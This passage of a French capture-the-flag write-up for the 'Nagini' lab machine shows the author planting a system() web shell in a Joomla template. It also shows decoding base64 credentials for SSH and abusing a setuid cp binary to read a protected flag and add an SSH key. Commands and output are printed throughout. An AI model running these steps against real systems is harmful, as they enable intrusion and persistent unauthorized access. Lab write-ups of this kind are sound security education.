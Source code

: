 Promenade Unix
--------------

Je ne suis pas un expert Joomla mais l'appli permet d'éditer des fichiers du CMS. En fouillant un peu j'ai trouvé le fichier *index.php* du thème par défaut (*protostar* qu'on voit mentionné quand on regarde la source de la page d'accueil) et j'y ait ajouté un classique appel à *system().*  

Ainsi l'URL *http://192.168.2.14/joomla/templates/protostar/?cmd=id* me retourne :  

```plain
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Avec la commande *find* je retrouve un premier horcrux (*/var/www/html/horcrux1.txt*) appartenant à l'utilisateur *ron* :  

```plain
horcrux_{MzogU2x5dGhFcmlOJ3MgTG9jS0VldCBkRXN0cm9ZZUQgYlkgUm9O}
```

Dans le dossier de l'utilisateur *snape* je retrouve des identifiants :  

```plain
-rw-r--r-- 1 snape snape   17 Apr  4  2021 .creds.txt
```

Une fois décodé (c'est du base64) j'obtiens le mot de passe *Love@lilly* qui m'ouvre un accès SSH.  

Le second horcrux est présent dans le dossier de *hermoine*. On ne peut pas le lire faute de permissions mais une copie du binaire *cp* a été laissé avec les droits setuid de l'utilisatrice :  

```plain
snape@Nagini:/home/hermoine$ cat horcrux2.txt 
cat: horcrux2.txt: Permission denied
snape@Nagini:/home/hermoine$ ls -l horcrux2.txt 
-r--r----- 1 hermoine hermoine 75 Apr  4  2021 horcrux2.txt
snape@Nagini:/home/hermoine$ ls -l bin/su_cp
-rwsr-xr-x 1 hermoine hermoine 146880 Apr  4  2021 su_cp
snape@Nagini:/home/hermoine$ ./bin/su_cp horcrux2.txt /tmp/
snape@Nagini:/home/hermoine$ ls -l /tmp/horcrux2.txt 
-r--r----- 1 hermoine snape 75 Nov 27 22:23 /tmp/horcrux2.txt
snape@Nagini:/home/hermoine$ cat /tmp/horcrux2.txt
horcrux_{NDogSGVsZ2EgSHVmZmxlcHVmZidzIEN1cCBkZXN0cm95ZWQgYnkgSGVybWlvbmU=}
```

Il est possible d'utiliser ce même exécutable pour ajouter notre clé publique SSH aux clés autorisées :  

```plain
snape@Nagini:/tmp$ ~hermoine/bin/su_cp authorized_keys ~hermoine/.ssh/
snape@Nagini:/tmp$ ls -al  ~hermoine/.ssh/
total 12
drwxr-xr-x 2 hermoine hermoine 4096 Nov 27 22:31 .
drwxr-xr-x 6 hermoine hermoine 4096 Apr  4  2021 ..
-rw-r----- 1 hermoine snape     725 Nov 27 22:31 authorized_keys
```

I know what you did
-------------------
